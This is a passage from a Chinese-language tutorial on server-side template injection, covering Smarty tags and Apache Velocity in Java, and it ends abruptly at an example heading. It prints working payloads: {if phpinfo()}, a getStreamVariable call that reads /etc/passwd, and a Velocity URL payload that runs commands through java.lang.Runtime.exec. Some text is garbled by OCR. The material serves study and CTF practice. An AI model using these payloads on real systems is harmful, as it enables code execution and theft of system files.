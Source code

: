 3.{literal}
```
<script language="php">phpinfo();</script>   
```
这种写法只适用于php5环境

4.getstreamvariable
```
{self::getStreamVariable("file:///etc/passwd")}
```
在3.1.30的Smarty版本中官方已经把该静态方法删除

5.{if}{/if}
```
{if phpinfo()}{/if}
```
​ Smarty的 {if} 条件判断和PHP的if非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}，全部的PHP条件表达式和函数都可以在if内使用，如||，or，&&，and，is_array()等等，如：{if is_array($array)}{/if}

# 6.Java 中的SSTI
## 1.基本语法

语句标识符

#用来标识Velocity的脚本语句，包括#set、#if 、#else、#end、#foreach、#end、#include、#parse、#macro等语句。

变量

$用来标识一个变量，比如模板文件中为Hello a ， 可 以 获 取 通 过 上 下 文 传 递 的 a，可以获取通过上下文传递的a，可以获取通过上下文传递的a

声明

set用于声明Velocity脚本变量，变量可以在脚本中声明
```
#set($a ="velocity") #set($b=1) #set($arrayName=["1","2"])
```
## 2.基础使用
使用Velocity主要流程为：

初始化Velocity模板引擎，包括模板路径、加载类型等
创建用于存储预传递到模板文件的数据的上下文
选择具体的模板文件，传递数据完成渲染
通过 VelocityEngine 创建模板引擎，接着 velocityEngine.setProperty 设置模板路径 src/main/resources、加载器类型为file，最后通过 velocityEngine.init() 完成引擎初始化。

通过 VelocityContext() 创建上下文变量，通过put添加模板中使用的变量到上下文。

通过 getTemplate 选择路径中具体的模板文件test.vm，创建 StringWriter 对象存储渲染结果，然后将上下文变量传入 template.merge 进行渲染。

http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
1
7.实例
1.Simple_SSTI_2
